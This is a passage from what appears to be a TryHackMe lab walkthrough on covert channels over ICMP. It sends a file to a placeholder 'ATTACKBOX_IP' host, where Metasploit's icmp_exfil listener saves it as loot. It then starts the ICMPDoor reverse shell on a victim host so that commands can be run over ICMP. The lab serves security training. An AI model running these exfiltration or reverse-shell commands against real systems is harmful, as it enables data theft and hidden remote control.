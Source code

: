 ```markup
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0364s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=33619 seq=1] IP [ttl=64 id=51488 iplen=31 ]
RCVD (0.0369s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=63 id=19671 iplen=31 ]
RCVD (0.3760s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=31 id=1003 iplen=36 ]
    
Max rtt: 339.555ms | Min rtt: 0.391ms | Avg rtt: 169.973ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
thm@icmp-host:~#
```

Let's check our AttackBox once we have done sending the data and the ending trigger value.

Receiving Data in MSF  

```markup
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data received in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20220425212408_default_ATTACKBOX_IP_icmp_exfil_838825.txt
```

Nice! We have successfully transferred data over the ICMP protocol using theÂ MetasploitÂ Framework. You can check the loot file mentioned in the terminal to confirm the received data.

## ICMPÂ C2Â Communication

Next, we will show executing commands over the ICMP protocol using theÂ [ICMPDoor](https://github.com/krabelize/icmpdoor)Â tool. ICMPDoor is an open-sourceÂ reverse-shell written in Python3 and scapy.Â The tool uses the same concept we discussed earlier in this task, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

![C2 Communication over ICMP](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/c4c0b7beeaa41fd5b4a4f4cbe1ded82e.png)  

We have prepared the tools needed forÂ C2Â communication over the ICMP protocol onÂ **JumpBox**Â and theÂ **ICMP-Host**Â machines. First, we need to log in to the ICMP machine,icmp.thm.com, and execute theÂ icmpdoorÂ binary as follows,

Run the icmpdoor command on the ICMP-Host Machine  

```markup
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
```
